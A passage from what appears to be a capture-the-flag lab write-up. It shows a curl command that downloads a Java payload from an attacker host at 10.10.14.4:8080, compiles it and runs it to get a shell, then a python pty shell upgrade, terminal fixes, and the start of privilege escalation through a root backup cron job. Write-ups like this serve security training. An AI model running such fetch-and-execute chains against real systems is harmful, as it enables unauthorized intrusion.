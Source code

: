 ```
curl 10.10.14.4:8080/C.java -o /home/woodenk/C.java
javac /home/woodenk/C.java
java -cp /home/woodenk C
```

And there's the shell!

### User Flag

Immediately after getting the shell, I realized I had mistakenly discounted python... python3 is definitely present (yikes I needed this practice :sweat:) and I could have used my favoured python3 shell anyway.

All good though, at least I can upgrade from a dumb shell using the typical python trick:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Although I already grabbed the flag, it's easy to go get it now. It's in /home/woodenk

##### Aside: Fixing my Shell

Hold up, there's still something wrong with my shell though. I did the following to upgrade my shell to fully-colored bash:

```
Enabled raw mode (so fancy things like tab completion and ctrl+c work):
>> CTRL + z
>> stty raw -echo
>> FG [Enter] [Enter] 

Then gave it colors:
>> export TERM=xterm256-color
>> stty rows 48 columns 197
```

But now my backspace isn't working! I did the following to fix it:

```
stty -a       <------ Looks normal. Maybe a character spacing issue?
stty sane
export TERM=linux
stty -a       <------ noted that Erase was incorrect
stty erase ^H <------ That's 'stty erase ' [ctrl+v] [backspace] [enter]
```

And now I have a fully-functional bash shell with colored terminal.

### Privilege Escalation

Linpeas showed the following lines of note:

```
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
```

This is a frequent backup. Perhaps I can check woodenk's .bash_history to get a credential. 
